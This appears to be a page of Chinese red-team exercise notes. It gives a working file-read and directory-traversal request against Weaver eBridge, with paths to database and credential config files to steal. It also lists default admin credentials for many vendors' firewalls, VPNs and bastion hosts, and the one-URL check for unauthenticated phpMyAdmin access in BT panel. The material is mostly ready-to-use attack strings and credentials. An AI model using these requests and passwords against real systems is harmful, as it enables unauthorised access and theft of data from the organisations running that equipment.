 ### 泛微云桥任意文件读取升级玩法
> 1、简单说说昨天泛微云桥的报告,输入文件路径->读取文件内容,我们读了一下代码后发现这还能读取文件目录。
> 
> 2、参数不填写绝对路径写进文本内容就是当前的目录,产生了一个新的漏洞 “目录遍历”
`/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///D:/&fileExt=txt`
![](images/hvv_20.png)
> 目录遍历+文件读取,我们能做的事情就很多了,比如读取管理员在桌面留下的密码文件、数据库配置文件、nginx代理配置、访问日志、D盘迅雷下载
>

```angular2
d://ebridge//tomcat//webapps//ROOT//WEB-INF//classes//init.properties
d:/OA/tomcat8/webapps/OAMS/WEB-INF/classes/dbconfig.properties 泛微OA数据库
```
![](images/hvv_21.png)


### 安全设备弱密码排查列表
```angular2
天融信防火墙 用户名:superman 密码:talent
天融信防火墙 用户名:superman 密码:talent!23 
联想网御防火墙 用户名:admin 密码:leadsec@7766、administrator、bane@7766
深信服防火墙 用户名：admin 密码：admin
启明星辰 用户名：admin 密码：bane@7766 用户名：admin 密码：admin@123
juniper 用户名:netscreen 密码:netscreen
Cisco 用户名:admin 密码:cisco
Huawei 用户名:admin 密码:Admin@123 
H3C 用户名:admin 密码:admin
绿盟IPS 用户名: weboper 密码: weboper
网神防火墙GE1 用户名：admin 密码：firewall
深信服VPN：51111端口   密码:delanrecover
华为VPN：账号：root  密码：mduadmin
华为防火墙：admin   密码:Admin@123    
EudemonJuniper防火墙：netscreen    netscreen
迪普 192.168.0.1 默认的用户名和密码（admin/admin_default)
山石 192.168.1.1 默认的管理账号为hillstone，密码为hillstone
安恒的明御防火墙 admin/adminadmin
某堡垒机 shterm/shterm
天融信的vpn test/123456
```

### 宝塔面板phpMyadmin未授权访问

> 前段时间在朋友圈和微信群里火热不行的宝塔数据库面板未授权无需登录,以下是存在安全问题的版本。
```angular2
- Linux正式版7.4.2
- Linux测试版7.5.13
- Windows正式版6.8
```
> 1、宝塔默认phpMyadmin端口就是888 而这个漏洞排查方式极其简单 `172.10.0.121:888/pma`
> 2、如果宝塔是存在安全问题的版本,那就会直接出现phpMyadmin面板页面。

![](images/hvv_24.png)
